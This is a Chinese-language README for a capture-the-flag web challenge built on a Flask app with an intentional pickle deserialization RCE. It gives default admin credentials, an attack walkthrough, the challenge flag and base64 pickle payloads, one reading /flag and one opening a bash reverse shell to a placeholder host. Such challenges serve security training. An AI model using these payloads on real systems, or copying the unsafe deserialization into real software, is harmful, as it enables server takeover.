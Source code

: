 # 员工绩效管理系统 - CTF Web 题目

## 题目背景

这是一个模拟真实企业内部的员工绩效管理系统，包含完整的用户认证、数据管理和模板配置功能。系统看起来非常专业和真实，但隐藏着一个危险的安全漏洞。

## 题目描述

某大型科技公司的内部绩效管理系统疑似存在安全漏洞。作为安全研究员，你需要找到并利用这个漏洞，获取服务器权限。

目标：获取位于服务器根目录的flag文件内容。

**提示：关注系统的"高级功能"**

## 技术栈

- 后端：Python Flask
- 前端：Bootstrap 5 + HTML/CSS/JavaScript
- 数据库：SQLite
- 部署：Docker

## 安装运行

### 本地开发环境

```bash
# 1. 安装依赖
pip install -r requirements.txt

# 2. 运行应用
python app.py

# 3. 访问系统
http://localhost:5000
```

### Docker 部署

```bash
# 构建镜像
docker build -t performance-system .

# 运行容器
docker run -p 5000:5000 performance-system
```

## 默认账户

系统预设了以下测试账户：

| 用户名 | 密码 | 角色 | 部门 |
|--------|------|------|------|
| admin | admin@2024 | admin | HR |
| manager1 | manager123 | manager | Engineering |
| employee1 | emp2024 | employee | Engineering |
| hr_lead | hr_secure | hr | HR |

## 系统功能

### 普通用户功能
- 用户登录/登出
- 查看个人绩效评估
- 查看个人资料
- 系统帮助文档

### 管理员功能
- 所有普通用户功能
- 模板管理（创建、编辑、预览）
- 系统管理面板
- 用户管理

### 关键功能：模板系统

系统的模板功能支持：
- 标准JSON变量配置
- **高级序列化变量配置** ⚠️

模板变量支持两种格式：
1. 标准JSON：`{"key": "value"}`
2. 序列化格式：`pickle:<base64编码数据>`

## 漏洞分析

### 漏洞类型
Python Pickle 反序列化漏洞 (CWE-502)

### 漏洞位置
- 文件：`app.py`
- 函数：`preview_template()`
- 路由：`/admin/templates/preview`

### 漏洞原理
模板预览功能为了支持"复杂的变量配置"，允许用户提交序列化的Python对象。系统会检查变量字符串是否以`pickle:`开头，如果是，就会进行base64解码后使用`pickle.loads()`反序列化，这导致了远程代码执行漏洞。

### 利用条件
1. 需要管理员权限（admin角色）
2. 访问模板管理功能
3. 使用模板预览功能
4. 提交恶意的pickle序列化数据

## 攻击流程

### 1. 获取管理员权限
使用默认管理员账户登录：
- 用户名：`admin`
- 密码：`admin@2024`

### 2. 访问模板管理
导航到：系统管理 → 模板管理 → 创建新模板

### 3. 构造攻击载荷
使用`generate_payload.py`脚本生成payload：

```bash
python generate_payload.py
```

### 4. 执行攻击
在"变量配置"字段中输入恶意payload，然后点击"预览效果"。

## Payload 示例

### 读取flag文件
```json
{
  "content": "测试模板 {{test}}",
  "variables": "pickle:gASVKAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAhjYXQgL2ZsYWeUhZRSlC4="
}
```

### 反弹shell
```json
{
  "content": "测试模板 {{test}}",
  "variables": "pickle:gASVWgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwL3lvdXJfaXAvNDQ0NCAwPiYxJ5SFlFKULg=="
}
```

## 防护建议

1. **禁用pickle反序列化**：不要反序列化不受信任的数据
2. **输入验证**：严格验证用户输入格式
3. **权限控制**：限制危险功能的访问权限
4. **安全编码**：使用安全的序列化格式（如JSON）
5. **代码审计**：定期进行安全代码审计

## flag格式

```
wmctf{P1ckl3_D3s3r14l1z4t10n_1s_D4ng3r0us_4nd_RCE}
```

## 难度等级

**高级** - 需要理解pickle反序列化漏洞原理，具备代码审计能力。

---

**注意：此系统仅用于CTF比赛和安全研究，请勿用于非法用途。** 